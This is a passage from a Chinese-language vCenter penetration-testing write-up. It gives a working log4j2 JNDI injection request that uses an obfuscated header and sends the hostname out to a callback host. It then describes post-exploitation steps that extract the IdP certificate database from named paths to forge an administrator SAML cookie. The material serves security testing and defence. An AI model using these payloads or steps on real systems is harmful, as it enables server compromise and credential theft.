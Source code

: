 `com.vmware.h4.vsphere.ui.bootstrap.controller.ProvidersController.getProviderLogo()` 函数代码比较简单，通过 `URLConnection` 读取 URL 并解析。

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202205091611840.png-water_print](assets/1699407775-3366e042fb9a2ea5790c939363b6484d.svg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202205091611840.png-water_print")

### [](#27-log4j2-jndi-%E6%B3%A8%E5%85%A5)2.7 log4j2 JNDI 注入

VMware 的产品同样也受 log4j2 漏洞的影响，具体可以参考：[VMSA-2021-0028](https://www.vmware.com/security/advisories/VMSA-2021-0028.html)。

POC：

-   `/nuclei-templates/vulnerabilities/vmware/vmware-vcenter-log4j-jndi-rce.yaml`

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>``` | ```http<br>GET /websso/SAML2/SSO/vsphere.local?SAMLRequest= HTTP/1.1<br>Host: {{Hostname}}<br>X-Forwarded-For: ${jndi:${lower:d}n${lower:s}://${env:hostName}.{{interactsh-url}}}<br>``` |

具体漏洞成因在此就不再赘述。

## [](#3-%E5%90%8E%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95)3 后渗透测试

### [](#31-saml-%E8%AF%81%E4%B9%A6%E7%99%BB%E5%BD%95)3.1 SAML 证书登录

vSphere 5.0 版本引入了 SSO，支持使用 SAML 作为授权服务支持。当用户登录服务时，该服务会将身份验证请求转发给 SAML 。SAML 验证用户凭据是否正确以及他们是否有权访问指定的服务。

在 vCenter 中从 `/storage/db/vmware-vmdir/data.mdb` 提取 IdP 证书，为管理员用户创建 SAML 请求，最后使用 vCenter server 进行身份验证并获得有效的管理员 cookie。

首先需要从 vCenter 获得数据库文件：

-   Linux：`/storage/db/vmware-vmdir/data.mdb`
-   Windows：`C:\ProgramData\VMware\vCenterServer\data\vmdird\data.mdb`

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202205091200235.png-water_print](assets/1699407775-3366e042fb9a2ea5790c939363b6484d.svg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202205091200235.png-water_print")

利用 SAML [解密脚本](https://github.com/horizon3ai/vcenter_saml_login)生成 Cookie：
